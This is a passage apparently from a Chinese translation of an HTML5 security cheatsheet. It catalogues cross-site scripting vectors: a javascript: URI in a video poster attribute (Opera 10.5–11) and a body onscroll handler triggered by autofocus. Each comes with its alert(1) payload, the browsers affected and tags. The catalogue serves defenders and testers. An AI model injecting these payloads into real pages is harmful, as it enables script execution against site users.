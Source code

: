 *   [`www.w3.org/Bugs/Public/show_bug.cgi?id=9602`](http://www.w3.org/Bugs/Public/show_bug.cgi?id=9602)

*   [`www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#autofocusing-a-form-control`](http://www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#autofocusing-a-form-control)

reporter：.mario

### 通过<VIDEO>的 poster 属性执行 Javascript#10test

Opera 10.5+的 poster 属性允许使用 javascript: URI.这个 bug 在 opera11 中已修复

```
<video poster=javascript:alert(1)//></video> 
```

确保 VIDEO 的 poster 属性是相对 URI、http URI 和 MIME-typed 正确的 data URI

*   opera 10.5
*   opera 11.01

*   xss

*   poster
*   video
*   opera
*   html5

reporter：.mario

### 通过 autofocus 触发<Body>的 onscroll 执行 Javascript.#12test

这个向量是使用 autofocus 移开焦点的方式来移动滚动条,这样就触发了<BODY>的 onscroll 事件

```
<body onscroll=alert(1)><br><br><br><br><br><br>...<br><br><br><br><input autofocus> 
```

*   firefox 4.0
*   firefox latest

*   opera 9.0

*   opera latest

*   safari 4.0

*   safari latest

*   chrome 4.0

*   chrome latest

*   xss

*   autofocus
*   scroll
*   chrome
*   opera
